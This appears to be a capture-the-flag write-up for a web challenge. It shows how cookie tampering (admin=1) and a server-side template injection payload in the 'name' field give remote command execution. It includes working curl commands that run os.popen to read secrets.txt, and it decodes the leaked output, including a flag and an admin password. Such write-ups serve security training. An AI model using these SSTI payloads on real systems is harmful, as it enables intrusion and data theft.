


> "What's your prompt?"
>
> The flag is in secrets.txt
>
> Note: this web challenge instance will reset every 30 minutes. If a challenge is not responsive, you might need to wait until the next half hour.
>
> http://23.179.17.40:58005/

---

Upon accessing the page, we are asked to enter a name to join the chat.



After submitting a name, we are redirected to a `home` page. A quick look at the JavaScript `home.html` shows:



The `userName` variable is directly inserted into the page, suggesting a possible **SSTI** (Server-Side Template Injection).
However, testing common **SSTI** payloads failed because characters like `{}`, `<`, and `>` were filtered.

After some testing, I checked the cookies and try to decode them. The cookie `session` contained a `Base64` string:

```
eyJhZG1pbiI6IjAiLCJuYW1lIjoienR6In0.aA7zxg.zAnEcRAO3VHXg3UMqxY7BigC5jE
```

Decoding the first part (`Base64`) reveals:

```json
{"admin":"0","name":"ztz"}
```

Because when joining the chat, we will request to http://23.179.17.40:58005/ `POST` request with the `name` parameter. This suggested that the server stores the `name` and `admin` parameters in the cookie. Since the `POST` request accepts a `name`, I attempted to submit additional parameters.

**The idea**: forcefully set `admin=1` and inject a server-side payload.

```pwsh
curl -X POST -d "name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('sleep 10').read() }}&admin=1" http://23.179.17.40:58005/ -i
```

The server delayed its response by 10 seconds, confirming server-side code execution!

At this point, I attempted to directly read `secrets.txt`:

```pwsh
curl -X POST -d "name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() }}&admin=1" http://23.179.17.40:58005/ -i
```

The request succeeded, but the problem was:
Where can we see the output of `cat secrets.txt`?
When using the cookie, nothing visible appeared in the home chat.

After some experiments (including trying a reverse shell), I noticed that the cookie size changed depending on the command output.
This hinted that the command results were being hidden inside the cookie.

I decoded the cookie using CyberChef (**Base64** Decode (`A-Za-z0-9-_`) -> Zlib Inflate) and found an interesting field named uid, containing **another base64-encoded string**.

Example of the response after inflating:

```json
{"admin":"1","name":" self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() ","uid":"YWRtaW46OWYzSUMzdWo5XnpaCgpDSVR7MThhN2ZiZWRiNGYzNTQ4Zn1iJiMzOTtceGRhXHg4YVx4YjVceGY0XHg5MDtIXHhjMmVceGQ3XHhmOVx4YWJeY1x4ODVceGIwXHhkN1x4ZGVceDllRVx4OWZceDhkdFx4ODRceGNiX3tuXHhmMVIyXHgxOSYjMzk7"}
```

Decoding the `uid` field gives:

```
admin:9f3IC3uj9^zZ

CIT{18a7fbedb4f3548f}b&#39;\xda\x8a\xb5\xf4\x90;H\xc2e\xd7\xf9\xab^c\x85\xb0\xd7\xde\x9eE\x9f\x8dt\x84\xcb_{n\xf1R2\x19&#39;
```
